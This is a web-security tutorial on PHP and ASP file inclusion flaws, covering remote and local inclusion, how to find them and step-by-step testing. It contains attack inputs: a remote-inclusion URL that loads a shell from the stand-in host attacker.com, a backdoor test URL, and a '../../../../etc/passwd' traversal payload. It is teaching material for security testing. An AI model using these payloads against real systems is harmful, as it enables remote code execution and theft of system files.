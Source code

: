 # File Inclusion Vulnerabilities

Many scripting languages support file inclusion to help developers modularize code. However, if user input is passed directly to file inclusion functions, it can lead to serious security flaws. When exploited, file inclusion vulnerabilities can allow attackers to execute arbitrary scripts, disclose sensitive content, or bypass access controls.

---

## Remote File Inclusion (RFI)

PHP is particularly vulnerable because its `include()` and `require()` functions can accept URLs. If user input is used without validation, an attacker can make the server fetch and execute a script from an external domain.

* **Example**:
  ```php
  $country = $_GET['Country'];
  include($country . '.php');
  ```
  - A benign request might be:  
    `https://wahh-app.com/main.php?Country=US`
  - A malicious one could be:  
    `https://wahh-app.com/main.php?Country=http://attacker.com/shell`

* If the application allows this, the attacker’s script (hosted on `attacker.com`) will be fetched and executed as part of the application, leading to **remote code execution**.

---

## Local File Inclusion (LFI)

Even when remote URLs are disallowed, attackers may still exploit local file inclusion by injecting paths to local server-side resources.

* **Example attack vectors**:
  - Bypass access restrictions by including files from protected directories (e.g., `/admin/config.asp`).
  - Include static resources (e.g., images, logs) to extract content by injecting their paths into dynamic include statements.

* ASP’s `Server.Execute()` or PHP’s `include()` functions are often vulnerable when they accept user-controlled paths without validation.

---

## Exploitation Scenarios

Local file inclusion can be used to:

* Execute arbitrary server-side scripts if they reside in accessible locations.
* Access hidden or protected application functionality by including it from a publicly accessible page.
* Extract contents of static resources (HTML, logs, config files) that are normally inaccessible.
* Combine with traversal techniques (`../`) to include sensitive files outside the intended directory.

---

## Finding File Inclusion Vulnerabilities

File inclusion flaws often exist in parameters that determine language, theme, or content location. Any file-related input should be considered suspicious.

---

## HACK STEPS

**Testing for Remote File Inclusion (RFI)**:
1. Inject a full URL pointing to a file on a server you control.
   - If the target server requests your file, the parameter is likely vulnerable.
2. Use a bogus IP address (e.g., `http://192.0.2.1/backdoor`) and watch for connection timeouts.
   - This helps detect attempts to connect out, even if your server isn’t contacted.
3. If successful, upload a malicious script using the language’s supported syntax (e.g., PHP backdoor) and invoke it via the vulnerable parameter.

**Testing for Local File Inclusion (LFI)**:
1. Supply the name of a known executable file on the server (e.g., `admin.php`) and observe any behavior change.
2. Supply a static file (e.g., image or log file) and check if its contents are reflected in the response.
3. Try accessing sensitive or restricted functionality by including those files through the vulnerable parameter.
4. Attempt directory traversal to escape the expected file path and access files in other locations:
   - Payload example: `?page=../../../../etc/passwd`

---

## Summary

* RFI allows remote attacker-controlled scripts to be executed by the server.
* LFI enables inclusion of local server files, often resulting in information disclosure or privilege escalation.
* Both can lead to full system compromise, especially if combined with upload features or poorly configured file permissions.
